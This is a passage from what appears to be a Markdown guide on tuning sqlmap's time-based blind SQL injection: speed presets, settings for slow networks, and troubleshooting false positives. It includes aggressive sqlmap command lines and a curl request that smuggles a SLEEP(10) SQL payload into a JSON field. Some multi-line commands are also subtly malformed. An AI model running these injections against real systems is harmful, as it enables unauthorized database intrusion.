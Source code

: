 #### Time-based Performance Optimization

**Speed vs Accuracy Trade-offs:**
```bash
# Fast time-based (less accurate)
sqlmap -u "URL" --technique=T --time-sec=1 --timeout=5

# Balanced time-based (recommended)
sqlmap -u "URL" --technique=T --time-sec=3 --timeout=15

# Slow but thorough time-based (high accuracy)  
sqlmap -u "URL" --technique=T --time-sec=5 --timeout=30 --risk=3 --level=5

# Custom timing parameters:
--time-sec=N        # Seconds to wait for time-based response (default: 5)
--timeout=N         # Seconds to wait before timeout (default: 30)
--retries=N         # Retries when connection fails (default: 3)
--delay=N           # Delay in seconds between each HTTP request
```

**Network-Optimized Time-based:**
```bash
# For slow/unstable connections
sqlmap -u "URL" \
  --technique=T \
  --time-sec=7 \       # Longer delay to account for network lag
  --timeout=60 \       # Higher timeout
  --retries=5 \        # More retries
  --delay=3 \          # Delay between requests
  --threads=1          # Single thread for stability

# For fast/stable connections  
sqlmap -u "URL" \
  --technique=T \
  --time-sec=2 \       # Shorter delay
  --timeout=10 \       # Lower timeout
  --threads=5          # Multiple threads
  --batch
```

#### Time-based Troubleshooting

**Common Time-based Issues:**

**1. False Positives (Network Delays):**
```bash
# Problem: Network latency causes false time-based detection
# Solution: Increase time-sec and use multiple tests
sqlmap -u "URL" --technique=T --time-sec=10 --timeout=20

# Verify with manual testing:
curl -w "%{time_total}" -X POST -d '{"id":"1 AND SLEEP(10)"}' URL
# Should show ~10 second delay
```
